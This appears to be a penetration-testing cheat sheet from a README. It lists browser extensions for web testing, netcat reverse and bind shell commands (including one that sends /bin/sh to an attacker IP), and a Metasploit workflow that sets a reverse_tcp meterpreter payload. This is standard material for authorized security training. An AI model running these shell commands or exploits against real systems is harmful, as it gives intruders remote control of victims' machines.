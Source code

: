 ## 💻 Addons

- Download the **FoxyProxy** extension, then add a proxy specifically for **Burp Suite** so you can use it very quickly and efficiently.
- Download the **Wappalyzer** and/or **BuiltWith** extension to identify the technologies running on a website.
- Download the **EditThisCookie** extension to view, edit, export/import cookies.

---
## 🐚 Reverse and Bind Shells

This section details the basic setup for Netcat listeners and shell commands.

### Reverse Shell (Victim connects to Attacker)

| Role | Command | Description |
| :--- | :--- | :--- |
| **Attacker (Listener)** | `nc -lvp 4444` | Set up a listener on port 4444. |
| **Victim (Reverse)** | `nc <attacker_ip> 4444 -e /bin/sh` | Send a shell back to the attacker's IP and port. |

### Bind Shell (Attacker connects to Victim)

| Role | Command | Description |
| :--- | :--- | :--- |
| **Victim (Listener)** | `nc -nlvp 4444 -e /bin/sh` | Set up a listener on the victim machine that binds a shell to port 4444. |
| **Attacker (Connects)** | `nc <victim_ip> 4444` | Connect to the victim's listening port to receive the shell. |
---
## ⚔️ Metasploit Workflow

This sequence of commands outlines the typical steps for using the `msfconsole` to select, configure, and execute an exploit.

### Steps
1.  `msfconsole` — Start the Metasploit framework console.
2.  `search <service_or_cve>` — Find relevant modules based on a service (e.g., `smb`) or CVE number.
3.  `use exploit/<module>` — Load the desired exploit module.
4.  `show options` — Display the required parameters (like RHOSTS, LHOST, PAYLOAD) that need to be set.
5.  `set RHOSTS <target>` — Specify the target **remote host** IP address(es).
6.  `set PAYLOAD <payload>` — Select the payload to deliver to the target (e.g., `windows/meterpreter/reverse_tcp`).
7.  `set LHOST <attacker_ip>` — Specify the **local host** (attacker's) IP address for the reverse connection.
8.  `exploit` — Execute the exploit against the target.
---
